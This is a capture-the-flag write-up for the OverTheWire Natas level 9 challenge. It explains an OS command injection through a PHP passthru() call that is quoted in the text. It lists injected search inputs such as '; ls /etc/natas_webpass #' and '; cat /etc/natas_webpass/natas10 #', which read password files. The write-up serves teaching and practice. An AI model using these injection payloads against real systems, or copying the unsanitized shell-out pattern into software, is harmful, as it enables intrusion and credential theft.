





# Natas — Level 9 → 10

**Category:** OverTheWire / Natas  
**Difficulty:** Medium  
**Date:** 2026-08-17  
**Level page:** [natas9.html](https://overthewire.org/wargames/natas/natas9.html)

## Goal

A search box that looks for words containing whatever's typed in.

## Solution

Read the source and found the search was implemented by shelling out directly:

    if($key != "") {
        passthru("grep -i $key dictionary.txt");
    }

`$key` goes straight into a shell command with no sanitization, so anything typed there runs as part of that command line. Tested it by chaining an unrelated command with `;` and commenting out the rest of the original line with `#`:

    ; pwd #

    Output: /var/www/natas/natas9

Confirmed injection worked, so listed the directory holding all the level passwords:

    ; ls /etc/natas_webpass #

    natas0
    natas1
    natas10
    ...

Then read `natas10`'s password file directly the same way:

    ; cat /etc/natas_webpass/natas10 #

## Result

    Password for natas10: [REDACTED]

## Key Takeaway

`passthru()` (and similar functions like `exec`, `system`, `shell_exec`) run their argument as a literal shell command — any user input dropped into that string unescaped is OS command injection. `;` ends the intended command and starts a new one, and `#` comments out whatever the original command expected to come after, so the injected command runs cleanly on its own.
